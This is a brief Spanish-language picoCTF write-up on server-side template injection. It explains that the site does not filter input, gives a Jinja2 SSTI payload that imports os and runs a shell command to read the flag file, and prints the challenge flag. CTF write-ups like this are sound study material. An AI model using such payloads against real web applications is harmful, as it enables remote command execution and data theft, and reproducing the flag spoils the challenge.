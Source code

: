 ## Descripción 
I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:65299/)!

Hint:
1. Server Side Template Injection
## Solución 1

Ingresamos a la página dada e ingresamos valores y son incorrectos, en la pista nos dice que son las SSTI y las buscamos. Esto significa que servidor no filtra correctamente lo que los usuarios ingresan permitiendo inyectar código, simplemente buscamos una inyección de código que funcione para encontrar la bandera.

```
Inyección de código ingresada en la página:
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}
```

## Referencias
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/